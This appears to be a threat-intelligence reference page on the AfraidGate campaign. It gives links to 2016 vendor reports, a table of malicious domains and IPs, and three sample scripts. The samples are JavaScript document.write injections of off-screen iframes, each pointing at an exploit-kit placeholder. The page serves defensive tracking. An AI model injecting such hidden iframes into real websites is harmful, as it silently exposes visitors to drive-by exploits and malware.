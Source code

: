 #ScriptJS/AfraidGate

## __Publications:__
| Title |  Date Here | Source |Comment|
|---|---|---|---|
|[Dridex Actors Get In the Ransomware Game With "Locky"](https://www.proofpoint.com/us/threat-insight/post/Dridex-Actors-Get-In-the-Ransomware-Game-With-Locky)| 2016-02-16 |Proofpoint||
|[Locky Ransomware Installed Through Nuclear EK](http://researchcenter.paloaltonetworks.com/2016/03/locky-ransomware-installed-through-nuclear-ek/)| 2016-03-21 |PaloAlto||
|[Threat Spotlight: Exploit Kit Goes International Hits 150+ Countries](http://blog.talosintel.com/2016/04/nuclear-exposed.html)| 2016-04-20 |Talos||
|[Highly Popular Anime Site Jkanime Compromised](https://blogs.forcepoint.com/security-labs/highly-popular-anime-site-jkanime-compromised-redirecting-users-neutrino-ek)| 2016-06-21 |Forcepoint||
|[Neutrino EK’s Afraidgate pushed in malvertising attack](https://blog.malwarebytes.com/cybercrime/exploits/2016/09/neutrino-eks-afraidgate-pushed-in-malvertising-attack/)| 2016-09-13 |Malwarebytes|*Payload is Godzilla here. Locky is in fact a 2ndStage*|
|[Fox stealer: another Pony Fork](http://malware.dontneedcoffee.com/2016/09/fox-stealer-another-pony-fork.html)| 2016-09-26 |MalwareDontNeedCoffee||
----

| Date |Domain| IP |
| :------- | :---- | :---|
|170203|longtrim.datatestserver.com|159.203.30.60|
|170201|kithole.seanconnor.com|159.203.30.60|
|170122|cuprum.poemar.es|146.185.151.179|
|170122|bombarda.mkoussa.com|146.185.151.179|
|170121|pistole.1stclassmunitions.com|146.185.151.179|
|170118|team.motivaplan.com.br|45.55.10.142|
|170110|malina.cfdiweb.mx|178.62.242.179|
|161214|alfio.brasilperfectcity.com|188.166.17.115|
|161209|stylesheet.bittitle.com|138.68.144.43|
|161203|aquarius.away.es|138.68.144.43|
|161127|mikkie.thejwfnet.co.uk|188.166.4.51|
|161124|max.nasasi.com.ar|159.203.18.229|
|161120|parameter.miafp.cl|159.203.18.229|
|161023|club.panduan-ngeblog.com|138.68.135.94|
|161015|round.luc-hariman.com|159.203.2.200|
|161015|alexa.lorea.io|159.203.2.200|
|161011|monte.aguero.com.au|82.196.10.194|
|161003|sp.gridjunky.com|95.85.46.182|
|160930|spower.gogohen.com|95.85.46.182|
|160928|aug.nightrelay.co.za|139.59.171.176|
|160927|monro.nillaraujo.com|139.59.171.176|
|160926|lesley.portcoquitlamweather.ca|188.166.66.191|
|160923|mouse.redvos.com|188.166.66.191|
|160922|rouse.haslhome.com|46.101.93.53|
|160920|test.linonsa.com|146.185.158.150|
|160919|van.readytogo.club|178.62.23.109|
|160918|van.readytogo.club|178.62.23.109|
|160918|knight.manex.us|178.62.23.109|
|160915|vk.manex.us|178.62.23.109|
|160908|note.followthebrowns.com|159.203.3.186|
|160906|ono.bienestando.cl|159.203.3.186|
|160901|murphy.tahubaxoku.com|146.185.172.147|
|160828|ops.latokaski.fi|138.68.18.73|
|160828|nonna.culturizartechillan.cl|138.68.18.73|
|160818|font.enriquemonsalve.cl|178.62.77.103|
|160814|way.minadepreco.com.br|188.166.54.203|
|160814|make.kankerblogger.com|188.166.54.203|
|160811|global.platinoviajes.com.ve|188.166.54.203|
|160801|one.hiiragihoo.com|139.59.160.138|
|160730|temp.blog-sandltnst.co|139.59.160.138|
|160726|leon.stmaryschooldmt.com|46.101.26.161|
|160722|long.revistashine.com.ar|46.101.26.161|
|160713|stown.katieprallphotography.com|188.166.38.125|
|160629|dance.jmestudiocontable.com.ar|139.59.191.79|
|160626|onno.motorgear.com.au|188.166.38.125|
|160626|dron.transportemorelli.com.ar|146.185.173.25|

----
Script example :

```javascript
document.write('<div class="" style="position:absolute; width:399px; height:400px; left:15px; top:-740px;">  <a> </a><div> <a class="menu_link_new"></a> strong<iframe src="[EK HERE]" width=255 height=261 ></ifram'+ 'e><a></a></div><a class=""></a></div>');
```
```javascript
document.write('<div style="position:absolute; width:365px; height:400px; left:10px; top:-475px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=271 height=278 ></ifram'+'e><a class=""></a></div> </div>');
```
```javascript
document.write('<div style="position:absolute; width:355px; height:363px; left:10px; top:-954px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=285 height=290 ></ifram'+'e><a class=""></a></div> </div>');
```


